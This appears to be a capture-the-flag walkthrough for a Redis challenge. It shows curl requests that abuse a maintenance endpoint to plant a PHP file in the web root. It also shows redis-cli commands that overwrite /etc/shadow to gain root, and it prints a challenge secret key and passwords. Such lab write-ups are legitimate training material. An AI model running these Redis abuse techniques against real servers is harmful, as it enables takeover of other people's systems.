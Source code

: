 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
The Redis password can be found with the above method in the file maintenance.php, it is `R3disp@ss`.
As the Redis server is running as `root` we can overwrite `/etc/shadow` with new content. The `root` user's password is set to `Marie`.
```
player@95bbb6f62400:~$ printf "\n\nroot:cbMHDguL1fenw:16928:0:99999:7:::\n" > x
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' -x set 1 < x
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dir /etc
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dbfilename shadow
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' save
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ ls -l /etc/shadow
-rw-r--r-- 1 root root 243 Dec 30 18:07 /etc/shadow
player@95bbb6f62400:~$ su -
Password: 
root@95bbb6f62400:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 4ec1769f83fd212bcb9d22b2316d8706
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY3ODAxMjAwMywyODg2OTcwMTksNDc4OT
U5MjY3LDczMDk5ODExNl19
-->